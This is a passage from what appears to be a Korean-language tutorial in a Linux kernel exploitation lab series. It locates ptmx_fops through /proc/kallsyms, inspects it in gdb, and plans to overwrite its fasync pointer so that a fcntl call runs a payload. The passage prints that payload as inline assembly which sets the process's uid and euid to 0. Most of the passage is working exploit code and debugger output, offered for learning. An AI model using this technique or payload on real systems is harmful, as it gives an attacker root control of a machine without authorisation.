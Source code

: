 우선, `ptmx_fops` 구조체의 주소부터 구해보자.

```sh
test@ubuntu:~/exercises/arbitrary_write$ sudo cat /proc/kallsyms | grep "ptmx_fops"
ffffffff81f148a0 b ptmx_fops
test@ubuntu:~/exercises/arbitrary_write$
```

`MasterVM`에서 remote debugging을 통해 위에서 구한 주소에 위치한 구조체를 확인한다.

```c
root@master:~# gdb kernels/vmlinux-3.5.0-23-generic -q
Reading symbols from kernels/vmlinux-3.5.0-23-generic...done.
(gdb) target remote 192.168.94.1:8864
Remote debugging using 192.168.94.1:8864
native_safe_halt () at /build/buildd/linux-lts-quantal-3.5.0/arch/x86/include/asm/irqflags.h:50
warning: Source file is more recent than executable.
50	}
(gdb) p *(struct file_operations*)0xffffffff81f148a0
$1 = {owner = 0x0 <irq_stack_union>, llseek = 0xffffffff81187030 <no_llseek>,
  read = 0xffffffff813eb820 <tty_read>, write = 0xffffffff813ebfe0 <tty_write>,
  aio_read = 0x0 <irq_stack_union>, aio_write = 0x0 <irq_stack_union>, readdir = 0x0 <irq_stack_union>,
  poll = 0xffffffff813eb780 <tty_poll>, unlocked_ioctl = 0xffffffff813ed720 <tty_ioctl>,
  compat_ioctl = 0xffffffff813eb6a0 <tty_compat_ioctl>, mmap = 0x0 <irq_stack_union>,
  open = 0xffffffff813f5f30 <ptmx_open>, flush = 0x0 <irq_stack_union>,
  release = 0xffffffff813ecc30 <tty_release>, fsync = 0x0 <irq_stack_union>,
  aio_fsync = 0x0 <irq_stack_union>, fasync = 0xffffffff813eb650 <tty_fasync>,
  lock = 0x0 <irq_stack_union>, sendpage = 0x0 <irq_stack_union>,
  get_unmapped_area = 0x0 <irq_stack_union>, check_flags = 0x0 <irq_stack_union>,
  flock = 0x0 <irq_stack_union>, splice_write = 0x0 <irq_stack_union>,
  splice_read = 0x0 <irq_stack_union>, setlease = 0x0 <irq_stack_union>,
  fallocate = 0x0 <irq_stack_union>}
(gdb) p &$1.fasync
$2 = (int (**)(int, struct file *, int)) 0xffffffff81f14920 <ptmx_fops+128>
(gdb)
```

`fasync` 함수 포인터가 `ptmx_fops+128` 위치에 존재하므로 해당 포인터를 `payload()` 함수 주소로 덮은 후 `fcntl(ptmx, F_SETFL, FASYNC);` 명령을 통해 `fasync` 함수 포인터를 호출할 수 있다.

`payload()` 함수는 이전 [lab3](https://nonetype.github.io/2019-09-23/Linux-Kernel-Exploit-Development-lab3#do-lpe---automated)에서 사용했던 `automated privilege escalation` 코드를 재사용한다.

```c
void __attribute__((regparm(3))) payload() {
        asm(
                "pushq %rax;"                                   /* save Registers */
                "pushq %rcx;"
                "movq %rsp, %rax;"                              /* get SP */
                "movq $0xFFFFFFFFFFFFE000, %rcx;"               /* calc THREAD_SIZE */
                "andq %rcx, %rax;"                              /* calc thread_info */
                "movq (%rax), %rcx;"                            /* get task_struct */
                "movq 0x458(%rcx), %rax;"                       /* get real_cred */
                "movl $0, 0x04(%rax);"                          /* set  uid */
                "movl $0, 0x14(%rax);"                          /* set euid */
                "popq %rcx;"                                    /* restore Registers */
                "popq %rax;"
        );
}
```
